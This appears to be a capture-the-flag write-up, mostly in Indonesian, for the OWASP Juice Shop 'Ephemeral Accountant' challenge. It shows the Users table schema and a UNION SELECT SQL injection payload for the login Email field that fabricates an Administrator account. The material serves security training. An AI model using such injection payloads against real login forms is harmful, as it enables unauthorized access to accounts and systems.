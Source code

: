 ## Write-up: Ephemeral Accountant

### Overview

Title: Login dengan akun yang belum diregistrasi sebagai user.

Category: SQL Injection

Describe:Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

<img width="433" height="221" alt="Cuplikan layar 2025-09-10 191921" src="https://github.com/user-attachments/assets/2bcc74c7-093c-454c-bcb6-7423bdea15e6" />

### Alat yang Digunakan

- **Browser:** Digunakan untuk berinteraksi dengan antarmuka masuk (login) dari aplikasi web.
- **Burp Suite:** Digunakan untuk mencegat dan mengubah permintaan HTTP guna menyuntikkan (inject) kode SQL.

## Resource

https://portswigger.net/web-security/sql-injection/examining-the-database

https://portswigger.net/web-security/sql-injection/union-attacks

### Metodologi dan Solusi

### Langkah-Langkah

1. **Cari schema untuk tabel Users (didapat dari soal Database Schema).**

   <img width="1919" height="1016" alt="Cuplikan layar 2025-09-10 151255" src="https://github.com/user-attachments/assets/9b33bbb9-7730-4e99-8143-d121c642d40b" />

   Dari challenge Database Schema, diketahui tabel Users memiliki 13 kolom:

   ```bash
   id, username, email, password, role, deluxeToken, lastLoginIp, profileImage, totpSecret, isActive, createdAt, updatedAt, deletedAt
   ```

1. **Masuk Halaman Login**

   Untuk masuk halaman login dapat mengklik kata account dibagian kanan atas.
   
   <img width="1918" height="1023" alt="Cuplikan layar 2025-09-10 192022" src="https://github.com/user-attachments/assets/4ff55647-220f-4a9e-8dbe-72b0d597bca4" />

3. **Buat payload yang akan dimasukkan ke kolom "Email"**

   ```bash
   admin' UNION SELECT * FROM (SELECT 45, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op', 'veri', 'Administrator', '1234', '127.0.0.1', '/assets/public/images/uploads/default.svg', '676941', 0, 1, 2, 3)--
   ```
   
  <img width="1919" height="1020" alt="Cuplikan layar 2025-09-10 192146" src="https://github.com/user-attachments/assets/6c3b7e23-53a7-4544-83e8-e22af047e113" />
